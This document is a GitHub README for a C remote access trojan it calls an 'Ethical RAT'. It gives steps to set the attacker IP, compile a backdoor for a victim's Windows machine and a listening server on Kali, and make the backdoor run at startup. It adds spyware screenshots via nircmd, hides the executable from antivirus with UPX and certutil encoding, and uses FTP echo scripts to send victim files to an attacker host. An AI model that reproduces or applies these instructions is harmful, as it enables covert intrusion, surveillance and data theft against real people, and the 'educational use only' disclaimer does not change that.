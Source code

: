 # C Persistent Encoded RAT </br>
[![Version](https://img.shields.io/badge/EP-0.1-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Testing-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Windows/Linux-orange.svg)]()
[![Contributions Welcome](https://img.shields.io/badge/New-Major-Update-Coming-blue.svg?style=flat)]()
</br>
**by Pol Galvez** </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes

![alt text](https://raw.githubusercontent.com/PolGs/C-EthicalRAT/main/image_2021-07-30_221130.png)
## How to Use</br>
-> **Configure Attacker IP:(backdoor.c - line 19)**
```sh
char *ServIP  = "192.168.174.129";//Server IP
```
-> **Configure Attacker IP:(server.c -line 90)**
```sh
server_address.sin_addr.s_addr = inet_addr("192.168.174.129");//Server address
```
-> **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```
->**Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/server.exe
```
->**Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Enable run on startup:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)

## Thanks to
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Creating similar RAT<br>
https://youtu.be/6Dc8i1NQhCM<br>
Playlist on basic windows rat .dll</br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs

Easy metasploit spyware tutorial:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```
## License
Open Source<br>
**Free Software, Hell Yeah!**
